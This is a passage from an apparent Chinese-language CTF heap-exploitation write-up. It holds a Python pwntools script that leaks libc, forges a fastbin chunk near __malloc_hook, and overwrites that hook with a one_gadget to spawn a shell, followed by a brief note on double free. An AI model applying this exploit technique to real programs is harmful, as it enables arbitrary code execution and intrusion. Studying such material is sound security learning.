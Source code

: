 ```python
libc_base = u64(rc(6).ljust(8,'\x00')) - 0x3c4b78
print "libc_base --->" + hex(libc_base) + '\n'

system = libc_base + libc.sym["system"]
binsh = libc_base + libc.search('/bin/sh').next()

print "system --->" + hex(system) + '\n'
print "binsh --->" + hex(binsh) + '\n'

#------one_gadget:0x45226 0x4527a 0xf0364 0xf1207------------

one_gadget = libc_base + 0xf1207
print "one_gadget --->" + hex(one_gadget) + '\n'

malloc_hook = libc_base + libc.sym["__malloc_hook"]
realloc = libc_base + libc.sym["realloc"]
print "malloc_hook --->" + hex(malloc_hook)
print "realloc --->" + hex(realloc)
fake_chunk = malloc_hook - 0x23
print "fake_chunk ---> " + hex(fake_chunk)

add(2,0x68)
free(2)
edit(2,0x8,p64(fake_chunk))

add(3,0x68)
add(4,0x68)

py = ''
#py += 'a'*0x23 + p64(one_gadget) + '\n'
py+= 'a'*11 + p64(one_gadget) + p64(realloc+2) + '\n'
print py + '\n'
edit(4,0x40,py)

debug(0x400AD2,0)

add(5,0x68)

p.interactive()
                             
```



#### double free



同一个堆块，如果连续free两次，会报错。


![upload successful](/images/pasted-119.png)
